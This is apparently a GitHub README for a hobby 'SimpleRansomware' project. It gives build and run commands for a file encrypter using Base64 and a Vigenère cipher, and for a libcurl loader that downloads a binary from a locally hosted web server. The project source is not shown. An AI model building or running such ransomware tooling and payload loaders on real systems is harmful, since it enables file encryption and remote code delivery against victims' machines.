 # SimpleRansomware
Simple chiper ransomware with loader end encrypter. It use simple alghoritms: Base64 + Veginer
## Encrypter
### Build & Run
Compiling encrypter:
```
cd encrypter
g++ main.cpp -o encrypter
```
Example of usage:
```
./encrypter example.txt "My secret Key" 0
```
Flags:
1. filepath
2. key for encrypt/decrypt
3. 0/1 encrypt/decrypt

## Loader
### Build & Run
Compiling loader:
```
cd loader
g++ main.cpp -o loader -lcurl
```
Run loader:

_Note: You need to run web server for hosting compiled binary. For example use follow command `python3 -m http.server` in `encrypter/` folder_
```
./loader http://localhost:8080/decrypter
```
